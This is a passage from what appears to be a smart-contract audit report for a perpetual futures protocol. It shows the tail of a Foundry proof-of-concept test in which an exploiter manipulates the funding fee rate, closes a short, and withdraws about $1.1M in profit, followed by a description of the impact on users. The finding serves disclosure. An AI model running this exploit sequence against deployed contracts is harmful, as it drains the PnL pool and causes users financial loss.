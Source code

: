 ```solidity
        //OUTPUT:
        // Funding Fee Rate after short:
        //-388399804857866884

        //move to next block
        vm.warp(block.timestamp + 2 seconds);

        //Exploiter closes the short to realize gains
        int256 exploiterPosSize = vault.getPositionSize(marketId,address(exploiter));
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: exploiterPosSize.abs(),
                oppositeAmountBound:type(uint256).max,
                deadline: block.timestamp,
                makerData: ""
            })
        );

        //exploiter withdraws entirely
        int256 upDec = vault.getUnsettledPnl(marketId,address(exploiter));
        int256 stDec = vault.getSettledMargin(marketId,address(exploiter));
        int256 marg = stDec-upDec;
        uint256 margAbs = marg.abs();
        uint256 toWithdraw = margAbs.formatDecimals(INTERNAL_DECIMALS,collateralToken.decimals());
        vault.transferMarginToFund(marketId,toWithdraw);
        vault.withdraw(vault.getFund(exploiter));
        vm.stopPrank();

        uint256 finalQuoteBalance = collateralToken.balanceOf(address(exploiter));
        console.log("Exploiter Quote balance at End: %s", finalQuoteBalance);
        //OUTPUT: Exploiter Quote balance at End: 6098860645835
        //exploiter profit  = $6,098,860 - $5,000,000 = $1,098,860
    }
}

```


## Impact

The various possible attacks detailed above generate immediate profits to the exploiter that can be withdrawn immediately if enough PnL exists in the pool, diluting the PnL pool on the expense of users and causing them financial loss from not being able to withdraw their profits. In addition, as detailed above many positions can be made liquidatable following the attack causing further damage.

## Code Snippet
https://github.com/sherlock-audit/2024-02-perpetual/blob/02f17e70a23da5d71364268ccf7ed9ee7cedf428/perp-contract-v3/src/fundingFee/FundingFee.sol#L104

